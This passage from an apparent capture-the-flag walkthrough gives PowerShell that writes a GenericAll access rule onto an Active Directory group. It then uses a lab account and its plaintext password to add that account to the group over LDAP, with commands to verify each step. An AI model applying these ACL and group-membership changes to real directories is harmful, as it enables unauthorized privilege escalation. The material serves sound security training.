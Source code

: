 ```powershell
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```
We can verify if the GenericAll permission has been added for user "rflkkildwi" for AD group "Research Department" <br>
```powershell
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local" 
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```
<img src="../../images/hhc2021/image106.png" alt="drawing" width="800px"/>

<b>Using remote_elf, add user "rflkkildwi" to the identified AD group.</b> <br>
```powershell
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "rflkkildwi"
$password = "Pvwevsviq#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
```
We can verify if the user  "rflkkildwi" to the "Research Department" group. <br>
```powershell
Get-ADGroupMember -Identity 'ResearchDepartment' | Where-Object {$_.name -eq "rflkkildwi"}
```

<img src="../../images/hhc2021/image107.png" alt="drawing" width="1200px"/>
